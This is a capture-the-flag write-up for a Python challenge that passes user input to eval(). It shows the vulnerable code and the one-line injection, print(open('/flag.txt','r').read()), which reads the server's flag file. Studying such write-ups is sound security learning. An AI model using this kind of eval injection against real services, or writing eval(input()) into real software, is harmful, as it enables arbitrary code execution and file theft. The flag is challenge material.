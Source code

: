 # Description

>You must be this 👉 high to ride.
>Note: flag is in /flag.txt

# Ressources

We are given a python file and netcat credentials to a server running the code.
Besides some comments in the file, we have this code:

>try:
>  response = eval(input("What's the password? "))
>  print(f"You entered `{response}`")
>  if response == "password":
>    print("Yay! Correct! Congrats!")
>    quit()
>except:
>  pass
>
>print("Nay, that's not it.")
 

In one of the comments, we are being told to execute arbitrary commands.      
What immidiatly comes to mind when reading the code, is the eval() function. This allows us to use a one-liner to get the flag.
The goal of our one-liner is to read /flag.txt.

After quite some tries of experimenting, I finally got the flag, by inputing:

>print(open('/flag.txt', 'r').read())

Explanation: This is a compacter version of the "usual" way to read a file in python:

>with open('/flag.txt', 'r') as file:
>       content = file.read()
>       print(content)

After using the one-liner, part of the output is the flag:

>csawctf{neigh______}

# Flag

>csawctf{neigh______}


